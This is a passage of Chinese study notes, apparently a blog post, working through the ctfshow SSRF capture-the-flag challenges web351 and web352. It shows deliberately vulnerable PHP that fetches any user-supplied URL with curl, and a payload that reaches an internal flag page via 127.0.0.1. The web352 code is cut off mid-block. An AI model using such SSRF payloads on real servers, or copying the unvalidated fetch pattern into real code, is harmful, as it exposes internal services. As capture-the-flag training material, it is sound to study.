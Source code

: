 ```yaml
---
title: ctfshow ssrf
date: 2024-09-03 15:32:45
tags: 
      - ssrf
      - ctfshow
categories: 学习笔记
---
```


http://t.csdnimg.cn/21MYs

### web351

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
//初始化一个cURL会话
$ch=curl_init($url);
//设定返回信息中包含响应信息头
curl_setopt($ch, CURLOPT_HEADER, 0);
//启用时会将头文件的信息作为数据流输出。 
//参数为1表示输出信息头,为0表示不输出

//设定curl_exec()函数将响应结果返回，而不是直接输出
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
//参数为1表示$result,为0表示echo $result

//执行一个cURL会话
$result=curl_exec($ch);
//关闭一个curl会话
curl_close($ch);
//输出返回信息  如果CURLOPT_RETURNTRANSFER参数为fasle可省略
echo ($result);
?>
```



存在一个flag.php页面，访问会返回不是本地用户的消息，那肯定是要让我们以本地用户去访问127.0.0.1/flag.php

```
url=http://127.0.0.1/flag.php

```

得到flag

### web352

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
```